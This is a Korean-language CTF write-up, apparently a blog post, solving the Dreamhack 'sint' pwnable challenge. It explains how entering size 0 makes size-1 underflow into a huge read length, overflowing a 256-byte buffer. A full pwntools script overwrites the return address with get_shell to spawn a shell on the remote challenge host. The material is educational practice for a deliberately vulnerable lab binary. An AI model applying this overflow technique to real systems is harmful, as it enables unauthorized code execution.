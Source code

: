 ```yaml
---
layout: post
title: Dreamhack | sint
subtitle: Dreamhack-Pwnable sint
categories: dreamhack.io
tags: [Pwnable, dreakhack, Shell, Pentest]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://dreamhack.io/wargame/challenges/">dreamhack.io</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/197375925-9c65298b-94ea-4c93-a528-a1a9be80abe9.jpg" width = 500>
</p>

이 문제는 **Integer Issues**라 하는 Reference를 가지고 있고 보호기법으로 보면 NX bit만 활성화 되어 있는 것을 알 수 있다. 

## 문제 풀이

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char buf[256];
    int size;

    initialize();
    signal(SIGSEGV, get_shell);

    printf("Size: ");
    scanf("%d", &size);

    if (size > 256 || size < 0)
    {
        printf("Buffer Overflow!\n");
        exit(0);
    }

    printf("Data: ");
    read(0, buf, size - 1);

    return 0;
}
```

이 코드에서는 `get_shell`을 통한 `system` 호출이 가능하다.

```C
if (size > 256 || size < 0)
{
   printf("Buffer Overflow!\n");
   exit(0);
}
```

`size`라는 변수를 int형으로 입력 받아 256보다 크거나 0보다 작으면 프로그램이 종료된다.

```C
printf("Data: ");
read(0, buf, size - 1);
```

우리가 입력받은 size보다 1만큼 작게 Data를 입력받아 `buf[256]`에 저장하는 것을 알 수 있다.

`size`변수는 int형으로 맨 앞 자리는 부호를 설정하는 값이다. 즉 -2^31 ~ 2^31-1의 범위를 가지게 된다. 

`size`가 0이고 -1을 하게 되면 컴퓨터는 2의 보수를 취해 값을 변경하게 된다.

따라서, `size - 1`를 2진수로 표현하면 **1111 1111 1111 1111**, 엄청 큰 값을 가지게 된다.

* **read 함수**

```C
#include <unistd.h>

ssize_t read(int fd, void *buf, size_t nbytes);
```

입력받는 크기에 해당 형은 `size_t`로 unsigned int로 부호없는 정수형이다. 즉, 2의 보수처럼 맨 앞 자리가 부호를 뜻하지 않게 된다는 것이다.

그래서 `size - 1`의 2진수의 값을 매우 큰 값으로 받아드려 BOF가 가능하게 된다.

`system`을 불러오는 `get_shell`함수도 존재하므로, 전체 크기 **0x104** + **SFP 4byte** + **get_shell 주소**로 payload를 전송하면 해결이 가능하다.

```python
from pwn import *

# p = process('./sint')
p = remote('host3.dreamhack.games', port)
elf = ELF('./sint')

get_shell = elf.symbols['get_shell']
payload = b''

p.recvuntil('Size: ')
p.sendline('0')

payload += b'A' * 0x108 + p32(get_shell)
p.recvuntil('Data: ')
p.send(payload)

p.interactive()
```